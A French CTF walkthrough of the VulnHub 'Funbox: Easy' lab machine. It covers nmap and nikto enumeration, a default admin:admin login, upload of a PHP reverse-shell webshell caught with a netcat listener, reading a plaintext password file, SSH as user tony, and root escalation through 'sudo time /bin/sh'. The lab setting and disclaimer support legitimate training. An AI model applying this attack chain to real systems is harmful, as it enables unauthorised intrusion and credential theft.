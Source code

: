 ```yaml
---
title: "CTF Funbox: Easy"
date: 2021-04-25
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/funbox-easy,526
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.1** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.58`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir FunboxEasy && cd FunboxEasy`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -sV -sT -p- $IP -oN nmap.txt
Nmap scan report for funbox3.home (192.168.1.58)
Host is up (0.00052s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?
```

On a un serveur **SSH** sur le port **22** , un serveur **Apache 2** sur le port **80** et un serveur **MySQL** sur le port **33060**.

Astuce vous pouvez ajouter le domaine _funbox3.home_ dans le fichier `/etc/hosts` avec **Vim** (ou un autre éditeur de texte).

```bash
$ sudo vim /etc/hosts
192.168.1.58    funbox3.home
```

Scannons le port **80** avec **Nikto**.

```bash
$ nikto -h http://$IP -o nikto.txt
+ Server: Apache/2.4.41 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Multiple index files found: /index.html, /index.php
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 5abac58e39aeb, mtime: gzip
+ Allowed HTTP Methods: OPTIONS, HEAD, GET, POST
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3092: /store/: This might be interesting...
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
```

Sur la page [/store](http://funbox3.home/store) en bas y a un lien "Admin login" qui amène sur [/store/admin.php](http://funbox3.home/store/admin.php) et en essayant avec "admin:admin", ça passe du premier coup. En cliquant sur "Add new book", on peut uploader un fichier quelconque. On prépare donc un webshell en PHP.

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php .
$ vim php-reverse-shell.php
/$ip
```

On peut lancer un serveur **Netcat** sur le port **1234** (ou celui de votre choix) `nc -lnvp 1234`.

En cherchant où les fichiers sont uploadés, on trouve le lien du répertoire [/store/bootstrap/img](http://funbox3.home/store/bootstrap/img). On clique sur notre webshell.

## Pénétration

Dans le terminal avec **Netcat**, la connexion avec le serveur est établi.

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

En remontant dans le répertoire "/home", on découvre un utilisateur "tony" avec un fichier "password.txt".

```bash
$ cat /home/tony/password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
```

On tente la connexion SSH.

```bash
$ ssh tony@localhost
tony@localhost's password: yxcvbnmYYY
```

## Escalation

On regarde les privilèges que possèdent cet utilisateur.

```bash
$ sudo -l
User tony may run the following commands on funbox3:
(root) NOPASSWD: /usr/bin/yelp
(root) NOPASSWD: /usr/bin/dmf
(root) NOPASSWD: /usr/bin/whois
(root) NOPASSWD: /usr/bin/rlogin
(root) NOPASSWD: /usr/bin/pkexec
(root) NOPASSWD: /usr/bin/mtr
(root) NOPASSWD: /usr/bin/finger
(root) NOPASSWD: /usr/bin/time
(root) NOPASSWD: /usr/bin/cancel
(root) NOPASSWD:
/root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

Sur [GTFOBins](https://gtfobins.github.io/gtfobins/time/#sudo), on regarde comment utiliser "time" en tant que "sudo".

```bash
sudo /usr/bin/time /bin/sh
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
id
uid=0(root) gid=0(root) groups=0(root)
```

Dans le répertoire de l'utilisateur "root", on trouve le flag dans le fichier "root.flag" `cat /root/root.flag`.
